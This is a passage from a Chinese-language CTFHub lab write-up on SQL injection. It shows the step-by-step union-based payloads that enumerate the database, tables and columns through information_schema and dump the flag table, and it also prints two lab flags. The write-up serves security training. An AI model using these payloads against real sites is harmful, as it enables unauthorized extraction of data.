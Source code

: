 ![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/整数型注入/6.png)

提交`ctfhub{b797799cfa5883e9255774f0}`即可。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/整数型注入/7.png)

------

#### 字符型注入

输入1试试？输入1后有俩行回显：一行`ID`一行`Data`，可以看到是`ID`是字符型。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/字符型注入/1.png)

`database()`回显当前连接的数据库，用`#`注释掉后面的那一个`'`，输入以下代码可以查询到当前数据库为`sqli`：

```sql
-1' union select 1,database()#
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/字符型注入/2.png)

`group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，输入以下代码能够查询到指定数据库的表信息：

```sql
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/字符型注入/3.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，上图查询到有个表叫`flag`，我们可以去查询该表的列信息：

```sql
-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'#
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/字符型注入/4.png)

最后输入以下代码根据`flag`字段可以查询到该字段的数据：

```sql
-1' union select 1,group_concat(flag) from sqli.flag#
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/字符型注入/5.png)

提交`ctfhub{7c61389921cf96d14f3df6f9}`即可。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/字符型注入/6.png)

------

#### 报错注入
